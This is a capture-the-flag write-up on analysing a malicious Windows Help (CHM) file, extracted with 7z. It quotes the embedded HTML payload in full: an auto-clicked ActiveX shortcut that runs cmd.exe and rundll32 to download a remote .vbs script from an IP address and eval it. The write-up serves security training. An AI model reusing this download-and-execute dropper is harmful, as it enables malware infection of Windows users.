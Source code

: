 ### JS

> **Challenge Description:** Help me with this Windows Help file. Our anti-virus has detected this file as a malware. Seriously, it's just a Windows Help file. Analyze and find the flag.
>
> **Flag Format:** `ihack{MD5}`

### Solution

CHM files can be opened and extracted using `hh.exe` in Windows for legitimate use. In this case, extract all the components from the CHM file using `7z`.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ 7z e chm.chm 

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,8 CPUs Intel(R) Core(TM) i7-9750H CPU @ 2.60GHz (906EA),ASM,AES-NI)

Scanning the drive for archives:
1 file, 10781 bytes (11 KiB)

Extracting archive: chm.chm
--
Path = chm.chm
Type = Chm
Physical Size = 10781

Would you like to replace the existing file:
  Path:     ./Property
  Size:     4 bytes (1 KiB)
  Modified: 2022-12-01 00:52:05
with the file from archive:
  Path:     $WWAssociativeLinks/Property
  Size:     4 bytes (1 KiB)
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? u

Everything is Ok                     

Folders: 2
Files: 12
Size:       11892
Compressed: 10781
```

The extracted `version.html` contains a embedded payload that references a `.vbs` file from a remote URL.

```
┌──(kali💀JesusCries)-[~/Desktop/iHack/CHM]
└─$ cat version.html                                               
<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=',cmd.exe,/c copy /Y C:\Windows\system32\rundll32.exe %TEMP%\out.exe > nul && %TEMP%\out.exe javascript:"\..\mshtml RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://139.59.122.20/version.vbs",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im out.exe",0,true);}'>
        <PARAM name="Item2" value="273,1,1">
      </OBJECT>
      <SCRIPT>
        x.Click();
      </SCRIPT> 
</body>
</html>  
```

Continue analyzing `version.vbs` and extract the flag from the `TXT` file.

**Flag:** `ihack{}`
